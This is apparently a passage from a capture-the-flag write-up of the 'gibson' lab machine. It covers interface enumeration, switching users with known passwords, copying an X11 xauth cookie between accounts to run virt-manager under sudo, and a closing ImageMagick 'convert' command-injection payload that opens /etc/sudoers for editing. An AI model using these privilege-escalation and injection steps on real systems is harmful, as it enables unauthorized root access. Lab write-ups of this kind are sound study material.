 ```
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:752 errors:0 dropped:0 overruns:0 frame:0
          TX packets:752 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:54416 (54.4 KB)  TX bytes:54416 (54.4 KB)

virbr0    Link encap:Ethernet  HWaddr fe:54:00:72:e2:fb  
          inet addr:192.168.122.1  Bcast:192.168.122.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6 errors:0 dropped:0 overruns:0 frame:0
          TX packets:15 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1271 (1.2 KB)  TX bytes:1889 (1.8 KB)

vnet0     Link encap:Ethernet  HWaddr fe:54:00:72:e2:fb  
          inet6 addr: fe80::fc54:ff:fe72:e2fb/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1665 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:500 
          RX bytes:1355 (1.3 KB)  TX bytes:87921 (87.9 KB)
```

Wow, so there was actually another active interface: `virbr0`. Could it be that, inside the VM, there was ANOTHER VM?

The thing was that I couldn't SSH as `eugene` directly, because of the no-password restriction. I could've added a public key to his home directory or disabled the restriction, but rather I just `su`'d  into him.

...Which was a pain, because when running `sudo virt-manager` it complained about the X11 authentication failing. Of course, I didn't have an `xauth` cookie for `eugene`. So I copied it from `margo`.

```
root@kali:~/gibson# ssh -X margo@192.168.56.102
Ubuntu 14.04.3 LTS
margo@192.168.56.102's password: #god
margo@gibson:~$ xauth list
gibson/unix:10  MIT-MAGIC-COOKIE-1  01dccb5a0820e7f65c5211528c49c0eb
margo@gibson:~$ su eugene
Password: #secret
eugene@gibson:/home/margo$ xauth add gibson/unix:10  MIT-MAGIC-COOKIE-1  01dccb5a0820e7f65c5211528c49c0eb
eugene@gibson:/home/margo$ sudo /usr/bin/virt-manager
```

Holy f*ck, I got in.

### Note
Of course, I could've always modified the `/etc/sudoers` file and get root directly:

```
sudo convert 'https://example.com"|vi "/etc/sudoers' out.png
```
